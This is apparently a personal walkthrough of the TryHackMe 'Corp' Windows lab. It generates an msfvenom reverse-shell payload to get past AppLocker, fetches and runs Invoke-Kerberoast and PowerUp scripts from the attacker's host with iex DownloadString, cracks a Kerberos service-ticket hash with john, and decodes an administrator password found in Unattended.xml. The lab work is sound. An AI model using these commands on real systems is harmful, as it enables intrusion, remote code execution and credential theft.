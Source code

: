 ```yaml
---
title: "Corp"
---
```


:::info Description

These are my notes for the [Corp Room](https://tryhackme.com/room/corp) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## TASK2: BYPASS APPLOCK

I RDP to the machine with login details provided. On the machine I can't execute anything with AppLocker tripping and stopping me.

### shell.exe

I want to generate a malicious shell and download to an 'allow-listed' directory e.g. `C:\Windows\System32\spool\drivers\color`.

Generate: `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.55.83 LPORT=80 -e x86/shikata_ga_nai -f exe -o shell.exe`

Serve it from my attack machine: `sudo python3 -m http.server 80`

Try pull it down from my RDP session: `certutil.exe -urlcache -f http://10.11.55.83/shell.exe shell.exe` WRONG.

Try again with PowerShell: `Invoke-WebRequest -Uri "http://10.11.55.83/shell.exe" -OutFile ".\shell.exe"` CORRECT.

download to directory: `C:\Windows\System32\spool\drivers\color` successful, but running the exe kept tripping AV. need to look into obfuscating binary in some way.

## TASK3: KERBEROASTING

Follow instructions on how to complete this task.

### enumerate windows

Looking for existing Service Principals (spn):

```powershell
PS C:\Users\dark> setspn.exe -T medin -Q */*
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local

Existing SPN found!
```

### get kerberoast.ps1

no external network, served the kerberoast ps1 from my local webserver:

```powershell
PS C:\Users\dark> iex(New-Object Net.WebClient).DownloadString('http://10.11.55.83/Invoke-Kerberoast.ps1')
PS C:\Users\dark> Invoke-Kerberoast -OutputFormat hashcat|fl


TicketByteHexStream  :
Hash                 : $krb5tgs$23$*fela$corp.local$HTTP/fela*$1F4596FE1600B29B2C9C9372905C3DAA$55AD748236930A037C
                       D75C0720E2B5416A7A48FD40189B621C110C19DC51AA947718EFE907583823B8FF220F32E1277F3FEB01DE738E8
                       5DC1F15ACEDAAC6C0B30C66936464C1F0B20388F539EDCDA68FE4A588383BC8A4E139C491EE5B5ACF4481954D86
                       86DDF9C4E685628AAFAA95BCFE5E3FE2E8C1CCECE32071EBB07997C0B5C6B8814EBF973C9486680FA944F98F6A2
                       46D50205A9BB026D43CC326D053346767F54DC4FF4F822548F0FF0BA58D58A3BA14ABF05A004B4E50D42F68664A
                       E4EAC6660FADAA4B87A61A227CC956CBCF6E7FEA4AFFFFD6374AC20614177BF09C54F2EEE0CA2615FA4FA941430
                       1D251AB5616774D07FEF1E3F4337D9AB58A33861A7B95120E0BDD537D5CA2E1427CB4075FDE81AAC3FF502AA8C1
                       9CB629C69211D19193A498F36DDD8EF1630A95E22E35B6A72E1482B5A4231F3A6B335A6F88954FBE5E3BD25287D
                       B91AF143BB91C6A5538776CAF5E339C8CB045E4927F7395D606FC90DFD60ABAF04FA39D42D684FC9E70A521CA50
                       272C43CA51E2C7C85C470BEA4509F4EAA84467F9878B96D1CA32550E635175C0E5129669F8F80264D451A83D9E8
                       6E6A1FBD6E5B0436C20D43B5187F80A626EEF84D0477AFBA4729F0342601CFCE3FA891229959D8EFF0A48ABB782
                       146105769CFEF0C19A60DB10943323D11BED7CFD65C56B2D2CB5CDC5D0B13580469F0664188427C86D5F758A53B
                       7041DD9678439695545A5A19497FDF82E02F51427D1E1AC2BD9AA23CF87F45925BE17707244D3920D7F144199D0
                       DCD58968D5B07FBE9753109AC735442A85111D1DC8246A86E68E5F18DBB18511C9842EB9CBD0E0E74380DA176BF
                       68A1235AD6FD99CAAB44184709339845D2FE3AA2A1ADC0A5FD27374DA33CF19A674AF740368A4862295414FF2A6
                       DAEE9B2E17E911374292A8D08A42A5D83DE63C7B9026C83BC8A47DAE2F46BAC78B86051565C8BF078ED8E73C8DB
                       CA22C382CF4633DD0C9573EF300CC836377FADB488936B2DD07922D544EE85FA50BA0514F72EE7288FC4A028035
                       ABD9E255D424B4B7A80DCCA27846C2EDE8957EA025F49A1D9367B9309D4516B30694C34E10EEC694795FE1D3BC3
                       E0D86332124ED33F9A3084F25B3BA2DD59AEB585FC94BE95A7AABF7165377EA92AEDF441E6C2D29E2F2501DFA0B
                       255AA76A3869D8262D0A6D7F3C6BDD17BC83AB5EC85D9DB71D58B00EC8F7F4E001C9C856F812ADD9ED42905A03B
                       17ED2ACB153D7B2D334C05BFBC68AFC0ECEFA97864F4B060D612B3FE436FA6B3DE682DF0E2788AAB4F57DF35D08
                       4CDB2290DB60B8F4C30717084A6125BC79538B128DF1F73603F40448F4934AF27D3711682B5516EB2902A86E639
                       45BC7FD6D75A10558E7A419AA006C1DCC9AB195E757F521513299C3B2
SamAccountName       : fela
DistinguishedName    : CN=fela,CN=Users,DC=corp,DC=local
ServicePrincipalName : HTTP/fela
```

### crack hash

copied the hash to a text file `hash.txt` and then used `cat hash.txt | tr -d "[:space:]" > hash.file` to remove all whitespaces and join the hash up.

then used john (thanks tedd) to crack:

```bash
➜  CORP git:(main) ✗ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rubenF124        (?)
1g 0:00:00:07 DONE (2022-03-31 22:36) 0.1340g/s 554003p/s 554003c/s 554003C/s rubens02..ruben4484
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

show

```bash
➜  CORP git:(main) ✗ john --show hash.txt
?:rubenF124

1 password hash cracked, 0 left
```

## PRIVESC: user

RDP logged in as `fela` and got flag from desktop.

## PRIVESC: root

Web served the `PowerUp.ps1` script from my attack machine: `iex​(New-Object Net.WebClient).DownloadString('http://http://10.11.55.83/download/PowerUp.ps1')`

### PowerUp.ps1

Found a hash value:

```powershell
PS C:\Users\fela.CORP> iex(New-Object Net.WebClient).DownloadString('http://10.11.55.83/download/PowerUp.ps1')
PS C:\Users\fela.CORP> type C:\Windows\Panther\Unattend\Unattended.xml
<AutoLogon />
    <Password />
        <Value />dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText />false</PlainText>
    </Password>
    <Enabled />true</Enabled>
    <Username />Administrator</Username>
</AutoLogon>
```

```bash
dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=
certutil.exe -decode "C:\path\to\b64.txt" decode.txt`

$echo dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ= | base64 -d
tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

Use `tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T` admin password with `evil-winrm` login as Admin, grab flag from `C:\Users\Administrator\Desktop`
